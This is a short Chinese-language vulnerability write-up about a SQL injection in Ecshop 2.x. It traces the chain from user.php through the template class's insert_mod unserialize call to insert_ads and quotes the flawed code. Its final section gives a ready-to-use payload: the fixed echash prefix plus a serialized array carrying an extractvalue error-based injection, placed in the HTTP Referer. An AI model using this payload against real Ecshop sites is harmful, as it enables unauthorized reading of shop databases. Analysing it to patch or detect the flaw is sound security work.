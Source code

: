 
## Ecshop 2.x 存在SQLi

### 利用链路：
user.php -> cls_template.php function dispaly -> cls_template.php function insert_mod -> function insert_*

### 缺陷代码：
```
user.php
num:302
if (empty($back_act))
    {
        if (empty($back_act) && isset($GLOBALS['_SERVER']['HTTP_REFERER']))
        {
            $back_act = strpos($GLOBALS['_SERVER']['HTTP_REFERER'], 'user.php') ? './index.php' : $GLOBALS['_SERVER']['HTTP_REFERER'];
        }
        ···
    }
···
    $smarty->assign('back_act', $back_act);
    $smarty->display('user_passport.dwt');
}
```

```
cls_template.php function dispaly()
···
foreach ($k AS $key => $val)
            {
                if (($key % 2) == 1)
                {
                    $k[$key] = $this->insert_mod($val);
                }
            }
            $out = implode('', $k);
···
```
```
cls_template.php
function insert_mod($name) // 处理动态内容
    {
        list($fun, $para) = explode('|', $name);
        $para = unserialize($para);
        $fun = 'insert_' . $fun;

        return $fun($para);
    }
```

### 利用

```
554fcae493e564ee0dc75bdf2ebf94caads为$_echash给定值
554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
$arr['id']带入function insert_ads($arr)中导致SQli
```


